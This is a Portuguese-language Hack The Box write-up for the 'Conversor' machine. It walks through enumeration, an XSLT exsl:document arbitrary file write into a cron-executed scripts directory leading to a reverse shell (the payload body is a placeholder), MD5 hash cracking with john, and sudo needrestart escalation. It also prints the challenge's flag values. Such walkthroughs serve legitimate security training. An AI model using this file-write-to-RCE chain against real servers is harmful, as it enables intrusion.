

# Hack The Box — Conversor


---

# Informações da Máquina

| Nome       | Dificuldade | Plataforma    | OS    |
| ---------- | ---------- | ------------ | ----- |
| Conversor  | Easy       | Hack The Box | Linux |

---

# Superfície de ataque

```
1. Enumeração de serviços (HTTP + SSH)
2. Análise da aplicação web (upload XML + XSLT)
3. Exploração de XSLT → escrita arbitrária de arquivo (exsl:document)
4. Execução de código via cron job
5. Acesso como www-data → pivot para usuário
6. Extração de credenciais (SQLite + MD5)
7. Escalação de privilégio via sudo (needrestart)
```

---

# Reconhecimento

A enumeração inicial foi realizada com Nmap.

```
nmap -sC -sV -A -T4 10.129.22.117
```


### Descobertas

| Porta | Serviço | Observações |
|------|--------|-------------|
| 22   | SSH    | OpenSSH 8.9p1 |
| 80   | HTTP   | Aplicação Conversor |

---

# Enumeração Web

A aplicação permite upload de arquivos XML e XSLT para transformação.


Ferramentas utilizadas:

* Gobuster
* Browser inspection

```
gobuster dir -u http://conversor.htb/ -w /usr/share/wordlists/dirb/common.txt
```

Descoberta de endpoint `/about` com download do source code.

---

# Exploração

A aplicação utiliza `lxml` com suporte a XSLT.

Foi possível abusar da extensão `exsl:document` para escrever arquivos no servidor.

Payload utilizado:

```xml
<exsl:document href="/var/www/conversor.htb/scripts/shell.py" method="text">
# reverse shell python
</exsl:document>
```



---

# Acesso Inicial

O diretório `/scripts` é executado via cron:

```
* * * * * www-data for f in /var/www/conversor.htb/scripts/*.py; do python3 "$f"; done
```

Após upload do payload, uma reverse shell foi obtida.


---

# Flag de Usuário

Banco SQLite encontrado:

```
/var/www/conversor.htb/instance/users.db
```


Hash MD5 quebrado com john:

```
john --format=raw-md5 hash --wordlist=/usr/share/wordlists/rockyou.txt
```

Senha recuperada → acesso via SSH.


```
00f53b8888ecdc8814a01c18dd67f289
```

---

# Escalação de Privilégio

Usuário possui permissão sudo:

```
sudo -l
```


```
(ALL : ALL) NOPASSWD: /usr/sbin/needrestart
```

---

# Explorando a Escalação de Privilégio

Exploração do `needrestart` para execução como root.


---

# Flag Root


```
36003125b473a0efc65cd596ac974152
```

---

# Vulnerabilidades Identificadas

### XSLT Injection → Arbitrary File Write

Descrição:
* Uso inseguro de XSLT com suporte a extensões
* Permite escrita de arquivos no servidor
* Possibilita RCE via cron jobs

---

# Ferramentas Utilizadas

* Nmap
* Gobuster
* John
* Netcat
* SSH

---

# Principais Aprendizados

* XSLT pode levar a RCE
* Cron jobs são vetores críticos
* Nunca confiar em uploads controlados pelo usuário

---

# Autor

https://github.com/ninjaa-exe
